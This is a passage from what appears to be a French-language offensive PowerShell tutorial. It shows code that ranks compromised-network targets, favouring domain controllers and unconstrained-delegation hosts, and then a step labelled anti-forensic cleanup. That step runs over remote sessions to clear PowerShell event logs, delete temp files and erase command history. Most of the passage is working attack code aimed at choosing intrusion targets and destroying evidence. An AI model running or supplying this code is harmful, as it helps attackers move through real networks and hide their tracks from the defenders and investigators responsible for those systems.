 ```powershell
                    "High" { $TargetInfo.VulnScore += 7 }
                    "Medium" { $TargetInfo.VulnScore += 4 }
                }
            }
        }
        
        # Bonus pour les cibles AD critiques
        if ($TargetInfo.ADInfo -and ($TargetInfo.ADInfo.IsDomainController -or $TargetInfo.ADInfo.HasUnconstrainedDelegation)) {
            $TargetInfo.VulnScore += 15
        }
        
        if ($TargetInfo.VulnScore -gt 10) {
            $HighValueTargets += $TargetInfo
        }
    }
    
    return $HighValueTargets | Sort-Object VulnScore -Descending
}
```

#### Étape 6 : Génération de rapports et nettoyage

Consolidez les résultats et effectuez un nettoyage anti-forensique.

```powershell
# Génération de rapport consolidé
$FinalReport = @{
    Timestamp = Get-Date
    PivotsUsed = $Sessions.Count
    TargetsScanned = $AllTargets.Count
    VulnerabilitiesFound = $HighValueTargets.Count
    CriticalFindings = $HighValueTargets | Where-Object {$_.VulnScore -gt 20}
    Recommendations = @(
        "Patch systems with critical vulnerabilities immediately",
        "Review Active Directory delegation configurations",
        "Implement network segmentation",
        "Deploy advanced threat detection"
    )
}

$FinalReport | ConvertTo-Json -Depth 5 | Out-File -FilePath "advanced_recon_report.json"

# Nettoyage anti-forensique
foreach ($Session in $Sessions) {
    Invoke-Command -Session $Session -ScriptBlock {
        # Nettoyage des logs PowerShell
        Clear-EventLog -LogName "Windows PowerShell" -ErrorAction SilentlyContinue
        Clear-EventLog -LogName "Microsoft-Windows-PowerShell/Operational" -ErrorAction SilentlyContinue
        
        # Nettoyage des fichiers temporaires
        Remove-Item -Path "$env:TEMP\*" -Recurse -Force -ErrorAction SilentlyContinue
        
        # Nettoyage de l'historique PowerShell
        Clear-History
        Remove-Item -Path "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
    }
}

# Fermeture propre des sessions
Remove-PSSession $Sessions
```
